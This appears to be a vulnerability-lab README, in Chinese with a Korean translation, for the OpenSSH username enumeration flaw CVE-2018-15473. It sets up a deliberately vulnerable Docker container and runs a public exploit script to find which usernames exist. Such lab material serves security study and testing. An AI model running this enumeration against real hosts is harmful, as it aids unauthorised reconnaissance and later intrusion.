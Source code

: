 # OpenSSH 用户名枚举漏洞（CVE-2018-15473）

OpenSSH 7.7前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机中。

参考链接：

- http://openwall.com/lists/oss-security/2018/08/15/5
- https://github.com/Rhynorater/CVE-2018-15473-Exploit
- https://www.anquanke.com/post/id/157607

## 漏洞环境

执行如下命令，编译及启动一个运行OpenSSH 7.7p1的容器：

```
docker compose build
docker compose up -d
```

环境启动后，我们在客户端执行`ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@your-ip -p20022`，输入密码`vulhub`，即可登录到容器中。

## 漏洞复现

使用[CVE-2018-15473-Exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)，枚举字典中的用户名：

```
python3 sshUsernameEnumExploit.py --port 20022 --userList exampleInput.txt your-ip
```

![](1.png)

可见，`root`、`example`、`vulhub`、`nobody`是存在的用户，`rootInvalid`、`user`、`phithon`是不存在的用户。

=======================================================================

# OpenSSH 사용자 이름 열거 취약점 (CVE-2018-15473)

OpenSSH 7.7 이전 버전에는 사용자 이름 열거 취약점이 존재합니다. 이 취약점을 통해 공격자는 특정 사용자 이름이 대상 호스트에 존재하는지 여부를 확인할 수 있습니다.

참고 링크:

- http://openwall.com/lists/oss-security/2018/08/15/5
- https://github.com/Rhynorater/CVE-2018-15473-Exploit
- https://www.anquanke.com/post/id/157607

## 취약점 환경

다음 명령어를 실행하여 OpenSSH 7.7p1을 실행하는 컨테이너를 빌드하고 시작합니다:

```
docker compose build
docker compose up -d
```

환경이 시작된 후 클라이언트에서 `ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@your-ip -p20022`를 실행하고 비밀번호 `vulhub`를 입력하면 컨테이너에 로그인할 수 있습니다.

## 취약점 재현

[CVE-2018-15473-Exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)을 사용하여 사용자 이름 목록을 열거합니다:

```
python3 sshUsernameEnumExploit.py --port 20022 --userList exampleInput.txt your-ip
```

![](1.png)

`root`, `example`, `vulhub`, `nobody`는 존재하는 사용자이고, `rootInvalid`, `user`, `phithon`은 존재하지 않는 사용자입니다.